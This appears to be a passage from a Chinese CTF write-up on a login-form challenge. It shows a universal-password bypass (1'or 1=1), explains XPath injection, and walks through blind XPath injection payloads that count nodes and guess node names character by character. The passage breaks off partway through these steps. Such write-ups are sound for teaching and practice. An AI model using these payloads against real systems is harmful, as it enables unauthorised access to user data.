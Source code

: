 ```python
print(response)

```

### injection

题目链接：http://114.55.165.246:8082/

题目提示为注入，进入界面为登陆框，第一时间想到SQL注入
![](http://err0r.top/wp-content/uploads/2020/11/wp_editor_md_b06fc720cc53319af91fc5a9d16aa88f.jpg)

输admin登陆一下
![](http://err0r.top/wp-content/uploads/2020/11/wp_editor_md_e5d0dbe29859c70bd59208024874c290.jpg)

是GET传参，sqlmap跑一下没有结果，万能密码`1'or 1=1`试一下成功
![](http://err0r.top/wp-content/uploads/2020/11/wp_editor_md_8c5cfc0c0ace6442123071fe06dcbb2e.jpg)

怀疑是XXE，尝试了一会发现不是。
后来想到XPath注入

XPath基础查询语句`//users/user[loginID/text()=’abc’ and password/text()=’test123’]`

这是一个XPath查询语句，获取loginID为abc的所有user数据，用户需要提交正确的loginID和password才能返回结果。如果黑客在 loginID 字段中输入：' or 1=1 并在 password 中输入：' or 1=1   就能绕过校验，成功获取所有user数据

`//users/user[LoginID/text()=''or 1=1 and password/text()=''or 1=1]`

具体不做阐述

---

**尝试XPath盲注**

一般步骤如下:

1.判断根下节点数:

`127.0.0.1/xpath/index.php?name=1' or count(/*)=1 or '1'='1&pwd=fake`

result: 1

2.猜解第一级节点:

`127.0.0.1/xpath/index.php?name=1' or substring(name(/*[position()=1]),1,1)='r' or '1'='1&pwd=fake`

`127.0.0.1/xpath/index.php?name=1' or substring(name(/*[position()=1]),2,1)='o' or '1'='1&pwd=fake`

...

result: root

3.判断root的下一级节点数:

`127.0.0.1/xpath/index.php?name=1' or count(/root/*)=2 or '1'='1&pwd=fake`

result: 2

4.猜解root的下一级节点:
